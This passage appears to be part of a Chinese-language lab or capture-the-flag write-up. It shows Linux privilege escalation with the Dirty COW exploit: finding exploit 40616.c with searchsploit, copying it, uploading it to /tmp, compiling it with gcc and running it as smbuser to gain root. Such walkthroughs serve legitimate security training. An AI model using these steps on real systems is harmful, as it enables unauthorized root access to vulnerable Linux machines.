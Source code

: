 ![52](https://havocykp.github.io/assets/images/52.png)

命令：searchsploit dirty

![53](https://havocykp.github.io/assets/images/53.png)

搜索具体的文件路径：

命令：searchsploit -p 40616.c

复制文件到根目录：

命令：cp /usr/share/exploitdb/exploits/linux/local/40616.c ./

![54](https://havocykp.github.io/assets/images/54.png)

将脏牛文件上传到tmp目录下

![55](https://havocykp.github.io/assets/images/55.png)

在smbuser用户登录下，编译运行脏牛脚本

命令：gcc -pthread 40616.c -o dirty -lcrypt

![56](https://havocykp.github.io/assets/images/56.png)

查看生成的脚本并赋予权限

![57](https://havocykp.github.io/assets/images/57.png)

开始执行

命令：[smbuser@fileserver tmp]$ ./dirty 

提权成功

![58](https://havocykp.github.io/assets/images/58.png)


